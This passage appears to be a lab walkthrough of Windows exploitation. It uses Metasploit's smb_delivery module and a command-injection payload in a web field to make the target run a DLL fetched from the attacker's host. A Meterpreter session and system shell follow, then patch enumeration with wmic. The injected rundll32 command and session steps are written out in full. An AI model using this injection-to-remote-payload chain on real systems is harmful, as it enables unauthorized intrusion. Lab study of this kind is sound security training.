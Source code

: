 ```
[*] Started reverse TCP handler on 10.10.15.140:4444 
[msf](Jobs:1 Agents:0) exploit(windows/smb/smb_delivery) >> [*] Server is running. Listening on 10.10.15.140:445
[*] Server started.
[*] Run the following command on the target machine:
rundll32.exe \\10.10.15.140\fwaxf\test.dll,0   <----------------------- here *** 

```
Execute in web-browser with added: 

`127.0.0.1 & rundll32.exe \\10.10.15.140\fwaxf\test.dll,0`

<img width="1252" height="685" alt="image" src="https://github.com/user-attachments/assets/91dd0645-1ee5-4ce2-8b35-32e85119cc3d" />

Back in Metasploit there is a successful session established: 

```
[*] Run the following command on the target machine:
rundll32.exe \\10.10.15.140\fwaxf\test.dll,0
[*] Sending stage (177734 bytes) to 10.129.225.46
[*] Meterpreter session 1 opened (10.10.15.140:4444 -> 10.129.225.46:49672) at 2025-10-17 22:43:55 -0500
```

`ENTER` and then interact with the session:

```
[*] Meterpreter session 1 opened (10.10.15.140:4444 -> 10.129.225.46:49672) at 2025-10-17 22:43:55 -0500

[msf](Jobs:1 Agents:1) exploit(windows/smb/smb_delivery) >> sessions -i 1  <------- this 
[*] Starting interaction with 1...

(Meterpreter 1)(c:\windows\system32\inetsrv) > 
```

Drop into a system command shell:

```
(Meterpreter 1)(c:\windows\system32\inetsrv) > shell
Process 1696 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>

```

Enumerate the installed KBs using wmic:

```
c:\windows\system32\inetsrv>wmic qfe
wmic qfe
Caption                                     CSName           Description      FixComments  HotFixID   InstallDate  InstalledBy          InstalledOn  Name  ServicePackInEffect  Status  
http://support.microsoft.com/?kbid=3199986  WINLPE-SKILLS1-  Update                        KB3XXXXXX              NT AUTHORITY\SYSTEM  11/21/2016                                      
http://support.microsoft.com/?kbid=3200970  WINLPE-SKILLS1-  Security Update               KB3XXXXXX               NT AUTHORITY\SYSTEM  11/21/2016 

```
